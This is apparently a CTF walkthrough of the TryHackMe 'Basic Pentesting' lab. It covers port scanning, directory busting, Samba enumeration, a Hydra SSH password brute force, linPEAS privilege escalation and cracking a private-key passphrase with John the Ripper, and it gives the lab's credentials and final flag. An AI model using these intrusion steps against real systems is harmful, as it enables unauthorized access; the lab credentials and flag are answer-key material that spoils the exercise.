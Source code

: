 # Basic Pentesting : web app testing and privEsc

## nmap

`nmap -sC -sV -o N nmap/initial $ip`

![nmap](https://github.com/oghobhainn/TryHackMe/blob/main/images/basicpentesting/basic-nmap.png)

### Open Ports

```
22 (ssh)
80 (website)
139
445 (samba)
```

## gobuster - port 80

`curl -o big.txt https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/big.txt`

`gobuster dir -u http://$ip big.txt`

![gobuster](https://github.com/oghobhainn/TryHackMe/blob/main/images/basicpentesting/basic-gobuster.png)

## username and password bruteforcing

There is an old **samba** service, which is vulnerable. Let's enum it.

```
apt-get install enum4linux
enum4linux/enum4linux.pl -a $ip | tee enum4linux.log
```

We find two usernames, `jan` and `key`. We know by the comments on the website that __jan__'s password is weak. Let's use **Hydra**.

```
hydra -l $username -P /usr/share/wordlists/rockyou.txt ssh://$ip
```

## SSH into the machine

Credentials : `jan:armando`

## privEsv via LinPeas

```
git clone https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
scp linpeas.sh $username@$ip:/dev/shm
```

We find a private ssh key for __kay__ user !

but password-encoded, so we use __John The Ripper__, and find the password `beeswax` for the ssh connection.

Now we can ssh through it : `ssh -i privatekey_rsa kay@$ip` `password:beeswax`.

And we find the final answer into the `pass.bak` file : `hereisareallystrongpasswordthatfollowsthepasswordpolicy$$`
